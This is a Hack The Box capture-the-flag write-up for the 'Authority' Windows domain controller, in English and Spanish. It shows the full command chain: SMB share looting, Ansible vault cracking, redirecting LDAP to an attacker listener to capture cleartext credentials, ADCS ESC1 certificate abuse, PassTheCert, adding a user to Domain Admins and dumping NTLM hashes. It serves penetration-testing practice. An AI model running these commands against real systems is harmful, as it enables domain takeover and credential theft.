## Recon

```zsh
sudo nmap -p- --open --min-rate 5000 -v -n -Pn 10.10.11.222 -oG allPorts

nmap -sCV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49673,49690,49691,49693,49694,49703,49711,64966,65012 10.10.11.222 -oN targeted
```

```zsh
# Nmap 7.95 scan initiated Tue Aug 12 04:11:28 2025 as: /usr/lib/nmap/nmap --privileged -sCV -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,8443,9389,47001,49664,49665,49666,49667,49673,49690,49691,49693,49694,49703,49711,64966,65012 -oN targeted 10.10.11.222
Nmap scan report for 10.10.11.222
Host is up (0.076s latency).

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-08-12 04:31:22Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-08-12T04:32:37+00:00; -3h40m06s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
|_ssl-date: 2025-08-12T04:32:37+00:00; -3h40m06s from scanner time.
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
3268
/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-08-12T04:32:37+00:00; -3h40m06s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: authority.htb, Site: Default-First-Site-Name)
| ssl-cert: Subject: 
| Subject Alternative Name: othername: UPN:AUTHORITY$@htb.corp, DNS:authority.htb.corp, DNS:htb.corp, DNS:HTB
| Not valid before: 2022-08-09T23:03:21
|_Not valid after:  2024-08-09T23:13:21
|_ssl-date: 2025-08-12T04:32:37+00:00; -3h40m06s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
8443/tcp  open  ssl/http      Apache Tomcat (language: en)
|_ssl-date: TLS randomness does not represent time
|_http-title: Site doesnt have a title (text/html;charset=ISO-8859-1).
| ssl-cert: Subject: commonName=172.16.2.118
| Not valid before: 2025-08-10T04:21:48
|_Not valid after:  2027-08-12T16:00:12
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  msrpc         Microsoft Windows RPC
49690/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49691/tcp open  msrpc         Microsoft Windows RPC
49693/tcp open  msrpc         Microsoft Windows RPC
49694/tcp open  msrpc         Microsoft Windows RPC
49703/tcp open  msrpc         Microsoft Windows RPC
49711/tcp open  msrpc         Microsoft Windows RPC
64966/tcp open  msrpc         Microsoft Windows RPC
65012/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: AUTHORITY; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-08-12T04:32:28
|_  start_date: N/A
|_clock-skew: mean: -3h40m06s, deviation: 0s, median: -3h40m06s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Aug 12 04:12:43 2025 -- 1 IP address (1 host up) scanned in 74.69 seconds

```

```zsh
echo "10.10.11.222 authority.htb" | sudo tee -a /etc/hosts    
```

```zsh
nxc smb 10.10.11.222                                                         

SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
```

```zsh
nxc smb 10.10.11.222 -u 'guest' -p '' --shares

SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\guest: 
SMB         10.10.11.222    445    AUTHORITY        [*] Enumerated shares
SMB         10.10.11.222    445    AUTHORITY        Share           Permissions     Remark
SMB         10.10.11.222    445    AUTHORITY        -----           -----------     ------
SMB         10.10.11.222    445    AUTHORITY        ADMIN$                          Remote Admin
SMB         10.10.11.222    445    AUTHORITY        C$                              Default share
SMB         10.10.11.222    445    AUTHORITY        Department Shares                 
SMB         10.10.11.222    445    AUTHORITY        Development     READ            
SMB         10.10.11.222    445    AUTHORITY        IPC$            READ            Remote IPC
SMB         10.10.11.222    445    AUTHORITY        NETLOGON                        Logon server share 
SMB         10.10.11.222    445    AUTHORITY        SYSVOL                          Logon server share 
```

```zsh
nxc smb 10.10.11.222 -u 'guest' -p '' --rid-brute

SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\guest: 
SMB         10.10.11.222    445    AUTHORITY        498: HTB\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        500: HTB\Administrator (SidTypeUser)
SMB         10.10.11.222    445    AUTHORITY        501: HTB\Guest (SidTypeUser)
SMB         10.10.11.222    445    AUTHORITY        502: HTB\krbtgt (SidTypeUser)
SMB         10.10.11.222    445    AUTHORITY        512: HTB\Domain Admins (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        513: HTB\Domain Users (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        514: HTB\Domain Guests (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        515: HTB\Domain Computers (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        516: HTB\Domain Controllers (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        517: HTB\Cert Publishers (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        518: HTB\Schema Admins (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        519: HTB\Enterprise Admins (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        520: HTB\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        521: HTB\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        522: HTB\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        525: HTB\Protected Users (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        526: HTB\Key Admins (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        527: HTB\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        553: HTB\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        571: HTB\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        572: HTB\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        1000: HTB\AUTHORITY$ (SidTypeUser)
SMB         10.10.11.222    445    AUTHORITY        1101: HTB\DnsAdmins (SidTypeAlias)
SMB         10.10.11.222    445    AUTHORITY        1102: HTB\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.11.222    445    AUTHORITY        1601: HTB\svc_ldap (SidTypeUser)
```

### File Share (SMB)

```zsh
smbclient //10.10.11.222/Development -U 'guest' 
```

```zsh
smbclient '\\10.10.11.222\Development' -N -c 'prompt OFF;recurse ON;cd 'Development\Automation\Ansible\ADCS';lcd '~/Documents/HTB/Authority/content/';mget *'
```

```zsh
grep -r -i "password"
```



```zsh
admin T0mc@tAdm1n
robot T0mc@tR00t
```

### Web (8443)

```zsh
https://10.10.11.222:8443/pwm/private/login
```





```zsh
grep -r -i "svc"                     

PWM/ansible.cfg:remote_user = svc_pwm

cat PWM/ansible.cfg
```



### Ansible Vault

https://www.bengrewell.com/cracking-ansible-vault-secrets-with-hashcat/

```zsh
awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' login | tr -d ' ' > pwm_admin_login
awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' password | tr -d ' ' > pwm_admin_password
awk 'NR==1{print; next} {printf "%s", $0} END{print ""}' ldap | tr -d ' ' > ldap_admin_passwor
```

```zsh
ansible2john pwm_admin_login > pwm_login.hash
ansible2john pwm_admin_password > pwm_pass.hash
ansible2john ldap_admin_password > ldap_pass.hash
```

### John

```zsh
john ldap_pass.hash -w=/usr/share/wordlists/rockyou.txt
```



```
!@#$%^&*
```

```zsh
cat ldap_admin_password | ansible-vault decrypt; echo
```



- ldap_admin_password

```
DevT3st@123
```

- pwm_admin_password

```zsh
pWm_@dm!N_!23
```

- login

```
svc_pwm
```

```zsh
nxc smb 10.10.11.222 -u 'svc_pwm' -p 'pWm_@dm!N_!23'
```

```zsh
SMB         10.10.11.222    445    AUTHORITY        [*] Windows 10 / Server 2019 Build 17763 x64 (name:AUTHORITY) (domain:authority.htb) (signing:True) (SMBv1:False) 
SMB         10.10.11.222    445    AUTHORITY        [+] authority.htb\svc_pwm:pWm_@dm!N_!23 (Guest)
```


#### Configuration Manager



En esta parte podemos modificar la direccion URL para verificar si se esta enviando datos sensibles como credenciales.



Antes debemos modificar ``ldaps`` a ``ldap`` ya que ldap es sin SSL\TLS. Como en este caso  que viaja informacion pero con ldaps nos llega la informacion cifrada:



```zsh
ldap://10.10.14.5:389

nc -lvnp 389
listening on [any] 389 ...
connect to [10.10.14.5] from (UNKNOWN) [10.10.11.222] 58954

0Y`T;CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb�lDaP_1n_th3_cle4r!
```

```zsh
svc_ldap
lDaP_1n_th3_cle4r!
```

```zsh
nxc smb 10.10.11.222 -u 'svc_ldap' -p 'lDaP_1n_th3_cle4r!'
```





```zsh
evil-winrm -i 10.10.11.222 -u svc_ldap -p 'lDaP_1n_th3_cle4r!'
```

```powershell
net user svc_ldap
User name                    svc_ldap
Full Name
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            8/10/2022 9:29:31 PM
Password expires             Never
Password changeable          8/11/2022 9:29:31 PM
Password required            Yes
User may change password     No

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   7/5/2023 8:43:09 PM

Logon hours allowed          All

Local Group Memberships      *Remote Management Use
Global Group memberships     *Domain Users
The command completed successfully.
```

- Upload winPEAS



```zsh
certipy-ad find -vulnerable -u svc_ldap -p 'lDaP_1n_th3_cle4r!' -dc-ip 10.10.11.222 -stdout
```



## ADCS - ESC1

```zsh
certipy-ad req -u 'svc_ldap' -dc-ip 10.10.11.222 -target-ip 10.10.11.222 -p 'lDaP_1n_th3_cle4r!' -template CorpVPN -upn administrator@authority.htb -ca 'AUTHORITY-CA
```



Esto es porque los permisos solo los tiene los grupos `DOMAIN COMPUTERS`, `DOMAIN ADMINS` .



### Verificar la cuota de "Join Computer" (ms-DS-MachineAccountQuota)

```powershell
Get-ADUser -Identity svc_ldap -Properties MemberOf | Select-Object -ExpandProperty MemberOf
```

```powershell
Get-ADObject -Identity "DC=authority,DC=htb" -Properties ms-DS-MachineAccountQuota
```

Por defecto, los usuarios autenticados pueden unir hasta **10 computadoras** al dominio gracias al atributo `ms-DS-MachineAccountQuota` en el dominio.

```powershell
DistinguishedName         : DC=authority,DC=htb
ms-DS-MachineAccountQuota : 10
Name                      : authority
ObjectClass               : domainDNS
ObjectGUID                : 011a2802-ff7d-4748-bd64-b7386cae0bd2
```

Como podemos ver tiene delegación explícita en la OU de computadoras, lo cual nos permite ejecutar `Add-Computer`.

 https://github.com/aniqfakhrul/powerview.py

https://github.com/aniqfakhrul/powerview.py?tab=readme-ov-file#module-available-so-far

```zsh
powerview authority.htb/'svc_ldap':'lDaP_1n_th3_cle4r!'@10.10.11.222 --dc-ip 10.10.11.222
```



```powershell
Add-ADComputer -ComputerName racc0x -ComputerPass racc0x123!
```

```powershell
PV ❯ Get-ADObject -Identity racc0x$

objectClass                : top
                             person
                             organizationalPerson
                             user
                             computer
cn                         : racc0x
distinguishedName          : CN=racc0x,CN=Computers,DC=authority,DC=htb
instanceType               : 4
whenCreated                : 13/08/2025 06:48:03 (today)
whenChanged                : 13/08/2025 06:48:03 (today)
uSNCreated                 : 262363
uSNChanged                 : 262365
name                       : racc0x
objectGUID                 : {267e56f5-f1da-44b2-a8f0-ca959b55e277}
userAccountControl         : WORKSTATION_TRUST_ACCOUNT
badPwdCount                : 0
codePage                   : 0
countryCode                : 0
badPasswordTime            : 01/01/1601 00:00:00 (424 years, 7 months ago)
lastLogoff                 : 1601-01-01 00:00:00+00:00
lastLogon                  : 01/01/1601 00:00:00 (424 years, 7 months ago)
localPolicyFlags           : 0
pwdLastSet                 : 13/08/2025 06:48:03 (today)
primaryGroupID             : 515
objectSid                  : S-1-5-21-622327497-3269355298-2248959698-11602
accountExpires             : 9999-12-31 23:59:59.999999+00:00
logonCount                 : 0
sAMAccountName             : racc0x$
sAMAccountType             : SAM_MACHINE_ACCOUNT
dNSHostName                : racc0x.authority.htb
servicePrincipalName       : RestrictedKrbHost/racc0x.authority.htb
                             RestrictedKrbHost/racc0x
                             HOST/racc0x.authority.htb
                             HOST/racc0x
objectCategory             : CN=Computer,CN=Schema,CN=Configuration,DC=authority,DC=htb
isCriticalSystemObject     : False
dSCorePropagationData      : 01/01/1601 00:00:00 AM
mS-DS-CreatorSID           : S-1-5-21-622327497-3269355298-2248959698-1601
```

```zsh
certipy-ad req -u 'racc0x$'@10.10.11.222 -dc-ip 10.10.11.222 -p 'racc0x123!' -template CorpVPN -upn administrator@authority.htb -ca 'AUTHORITY-CA'
```



```zsh
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.222
```



**"KDC_ERR_PADATA_TYPE_NOSUPP"**  
_"...cuando un controlador de dominio no tiene instalado un certificado para tarjetas inteligentes..."_ es probablemente la razón más común para este error. Si el DC no tiene un certificado de **"Controlador de dominio"**, **"Autenticación de controlador de dominio"** u otro certificado con el EKU (Uso mejorado de clave) **"Autenticación de servidor"** (OID 1.3.6.1.5.5.7.3.1) instalado, el DC no está configurado correctamente para **PKINIT** y la autenticación fallará.

https://posts.specterops.io/certificates-and-pwnage-and-patches-oh-my-8ae0f4304c1d

https://www.thehacker.recipes/ad/movement/schannel/passthecert#theory

```zsh
certipy-ad cert -pfx administrator.pfx -nokey -out admin.crt
certipy-ad cert -pfx administrator.pfx -nocert -out admin.key
```

```zsh
python3 passthecert.py -action whoami -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222 
```



```zsh
python3 passthecert.py -action ldap-shell -crt admin.crt -key admin.key -domain authority.htb -dc-ip 10.10.11.222
```



```zsh
add_user_to_group svc_ldap "Domain Admins"
```


https://www.thehacker.recipes/ad/movement/ntlm/pth#practice

Comprobamos

```
net group "Domain Admins"
```


Dump Hashes

```zsh
impacket-secretsdump authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!'@10.10.11.222 -dc-ip 10.10.11.222 -just-dc-ntlm
```

